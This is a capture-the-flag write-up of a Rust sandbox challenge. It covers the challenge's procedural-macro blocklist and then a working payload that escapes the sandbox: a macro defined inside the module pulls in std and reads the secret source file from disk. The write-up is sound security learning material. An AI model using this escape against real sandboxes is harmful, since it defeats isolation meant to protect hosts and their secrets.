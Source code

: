 
# Overview

A server written in rust, which creates and runs Services (a Service there is a trait, a traits are similar to interfaces in other languages).
There are two Services, one is implemented in `user_1` module which is predefined and the other one (`user_0`) is supposed to be implemented by the user.

A Python code wraps it all - receives the code of `user_0`, build the program and executes it. 

Pretty simple, but how's it related to the flag? It is actually placed as a constant string in the predefined module:

```rust
#![no_std]
use proc_sandbox::sandbox;

#[sandbox]
pub mod user {
    static FLAG: &'static str = "CTF{fake flag}";
    use prelude::{mem::ManuallyDrop, Service, Box, String};
    pub struct State(ManuallyDrop<String>);
    impl State {
        pub fn new() -> Box<dyn Service> {
            Box::new(State(ManuallyDrop::new(String::from(FLAG))))
        }
    }
    impl Service for State {
       fn handle(&mut self, _: &str) {}
    }
}
```

I'm not very experienced in rust but I've seen some code and the use of [ManuallyDrop](https://doc.rust-lang.org/std/mem/struct.ManuallyDrop.html) was not familliar to me. As it wraps the flag, it is worth mentioning that the object is a wrapper can be used to inhibit compiler from automatically calling the destructor of the wrapped struct.
So it means the flag stays in memory? Interesting

And there is a sandbox. Actually in my point of view there were 3 "layers" of limitations, and the sandbox is one of them:

### Python validation
The user's input is being validated before the program is run (but after compiling). That's the function:

```python
def check_user_input():
    socket_print("Validating user input before compiling...")
    result = subprocess.run("/home/user/rustup/toolchains/nightly-2020-10-08-x86_64-unknown-linux-gnu/bin/rustc user-0/src/lib.rs -Zast-json=yes",
                            cwd="/home/user/sources", shell=True, timeout=150, capture_output=True)
    try:
        ast = json.loads(result.stdout)
        if len(ast["module"]["items"]) != 5:
            socket_print("Module escaping detected, aborting.")
            sys.exit(1)

    except json.JSONDecodeError:
        socket_print(
            "Something went wrong during validation -- is your input malformed?")
        sys.exit(1)

```

It tries to check module escaping using a feature of the rust compiler (exporting the AST).

**What actually caught my mind is the old version of the toolchain - should I exploit an old bug?**

### The sandbox 

The sandbox is implemented as a [Procedural Macro](https://doc.rust-lang.org/reference/procedural-macros.html) (more specific - attribute macro), which allow running code that consumes and produces rust syntax.

The `Sandbox` goes over the user-modules AST and checks for blocked operations:
* The `unsafe` expression.
* Linking to external symbol.
* `extern` declaration.
* Blocked idents (idents are keywords or illegal phrases): `env`, `file`, `include`, `include_bytes`,`include_str`, `option_env`, `std`

### Overriding `prelude`

In rust, [prelude](https://doc.rust-lang.org/std/prelude/index.html) is a list of things that rust automatically imports to every program, particularly for convenience.

It is possible to define your own prelude and that what happens in this challenge, so it goes hand to hand with the sandbox.

The `Service` trait is also defined in the same file.

```rust
pub use std::io::Read;
pub use std::io::Result as IoResult;
pub use std::vec::Vec;
pub use std::println as log;
pub use std::string::String;
pub use std::str;
pub use std::mem;
pub use std::boxed::Box;

pub trait Service {
    fn handle(&mut self, query: &str);
}
```

# My (unintended) way to the solution

There were some "hints" that led me to think I should get the flag by exploiting a bug that existed in that old version of rust and it should likely be related to memory issues - `DropManually` that keeps the flag in memory, the old toolchain and the name of the challenge.

But I had another idea.

As mentioned before, the sandbox is implemented as a Procedural Macro, which made me think - In what order the build-time code is run?  **What if I define a macro inside the module and call it later?**

The answer is the macro defined inside the module actually processed later and as a result can bypass the sandbox limitations :)

Now I need to get the flag and since I know the absolute path of the project in the server (the path exists in their Python code), the easiest way for me was just reading the source code file from the disk.
In order to read from disk you need to use `std` library, and although the sandbox is not an issue anymore, the library cannot be imported because of the prelude overriding.

But as a result of defeating the sandbox, the predule is not an issue anymore - I can use `extern crate`.
`extern crate` declaration specifies a dependency on an external crate, [and is likely no longer needed in most cases now](https://doc.rust-lang.org/edition-guide/rust-2018/module-system/path-clarity.html) as `use` is more convenient.

[It is possible to use `extern crate` to add symbols to the `extern prelude`](https://doc.rust-lang.org/reference/names/preludes.html#extern-prelude)

Now that no problems left to be solved, the payload:
```rust
    use prelude::{Service, Box, String, log};

    macro_rules! get_the_flag {
        ($e:expr) => {
            extern crate std;
            use std::fs;
            let all = fs::read_to_string("/home/user/sources/user-1/src/lib.rs").expect("whatever");
            log!("{}",all);
        };
    }

    pub struct State;
    impl State {
        pub fn new() -> Box<dyn Service> {
            get_the_flag!("");
            Box::new(Self)
        }
    }

    impl Service for State {
       fn handle(&mut self, _: &str) {
       }
    }
```

And the flag - `CTF{s4ndb0x1n9_s0urc3_1s_h4rd_ev3n_1n_rus7}`
